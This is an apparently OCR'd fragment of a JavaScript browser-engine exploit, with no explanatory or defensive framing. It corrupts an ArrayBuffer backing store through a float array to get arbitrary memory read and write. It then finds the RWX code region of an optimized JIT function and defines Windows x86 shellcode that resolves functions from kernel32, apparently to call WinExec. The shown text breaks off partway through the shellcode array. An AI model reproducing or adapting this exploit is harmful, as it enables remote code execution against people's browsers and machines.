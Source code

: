 ```plain
        log("[+] backing store idx: " + backing_store_idx +
            ", in " + (backing_store_in_hign_mem ? "high" : "low") + " place.");

    if (OptObj_idx == -1) {
        log("[-] Can not find Opt Obj !");
        return;
    } else
        log("[+] OptObj idx: " + OptObj_idx +
            ", in " + (OptObj_idx_in_hign_mem ? "high" : "low") + " place.");

    var backing_store = (backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);
    log("[+] Origin backing store: " + hex(backing_store));

    var dataNearBS = (!backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);

    function read(addr) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        return data_view.getInt32(0, true);
    }

    function write(addr, msg) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        data_view.setInt32(0, msg, true);
    }

    var OptJSFuncAddr = (OptObj_idx_in_hign_mem ?
        f2u(big_arr[OptObj_idx])[1] :
        f2u(big_arr[OptObj_idx])[0]) - 1;
    log("[+] OptJSFuncAddr: " + hex(OptJSFuncAddr));

    var OptJSFuncCodeAddr = read(OptJSFuncAddr + 0x18) - 1;
    log("[+] OptJSFuncCodeAddr: " + hex(OptJSFuncCodeAddr));

    var RWX_Mem_Addr = OptJSFuncCodeAddr + 0x40;
    log("[+] RWX Mem Addr: " + hex(RWX_Mem_Addr));

    var shellcode = new Uint8Array(
           [0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
            0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
            0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
            0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
            0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
            0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
            0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
            0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
```